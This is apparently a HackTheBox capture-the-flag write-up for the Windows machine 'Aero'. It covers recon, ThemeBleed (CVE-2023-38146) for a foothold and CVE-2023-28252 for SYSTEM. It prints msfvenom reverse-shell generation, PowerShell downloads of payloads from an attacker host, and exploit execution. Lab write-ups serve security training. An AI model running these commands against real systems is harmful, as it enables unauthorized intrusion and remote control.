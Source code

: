 ```yaml
---
title: "Aero - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - medium
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Aero
![](https://kar0nx.github.io/assets/images/writeup/d7402e63f4067df1dbbe7b143c90d61d.png)
## Reconnaissance

IP: 10.10.11.237
## NMAP

```
nmap -T4 -p- -A 10.10.11.237
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-18 11:25 UTC
Nmap scan report for 10.10.11.237
Host is up (0.029s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: Aero Theme Hub
|_http-server-header: Microsoft-IIS/10.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 11|2008|7 (89%)
OS CPE: cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows 11 21H2 (89%), Microsoft Windows 7 or Windows Server 2008 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   28.82 ms 10.10.14.1
2   29.12 ms 10.10.11.237

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.48 seconds
```

Wow probably windows 11, let's start with checking website

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918132600.png)

Nice page, checking upload I cannot upload any php git png etc. I think we can only upload themes

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918132655.png)

I can't find anything usefull here, tried directory busting and burp.

## Gaining Access

Searching google for aero there windows 11 exploit I found many information about CVE-2023-38146
https://www.rapid7.com/db/modules/exploit/windows/fileformat/theme_dll_hijack_cve_2023_38146/
PoC: https://github.com/Jnnshschl/CVE-2023-38146

install requirements, run listener and script

```
python3 themebleed.py -r 10.10.14.13 -p 443
```

next script will stop at red line spot and you need to upload evil_theme.theme to the site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918142332.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918142409.png)

After uploading you will get a shell

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918142519.png)

Now you can grab user.txt
## Privilege Escalation

Checking files in /users directory I found intersting CVE-2023-28252_Summary.pdf which may be a hint for priv esc

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918142705.png)

Checking this cve I found https://nvd.nist.gov/vuln/detail/cve-2023-28252
and Poc: https://github.com/fortra/CVE-2023-28252

In this Poc we need to compile exploit in visual studio, if you are lazy or don't wanna waste time I found precompiled version
https://github.com/duck-sec/CVE-2023-28252-Compiled-exe
Just prepare reverse shell .exe

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f exe -o reverse.exe
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918144045.png)

Download in target machine reverse shell and exploit
set listener and run script

```
iwr "http://10.10.14.13/reverse.exe" -o "reverse.exe"
iwr "http://10.10.14.13/exploit.exe" -o "exploit.exe"
.\exploit.exe 1208 1 reverse.exe
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918144212.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918144223.png)

And we have system shell.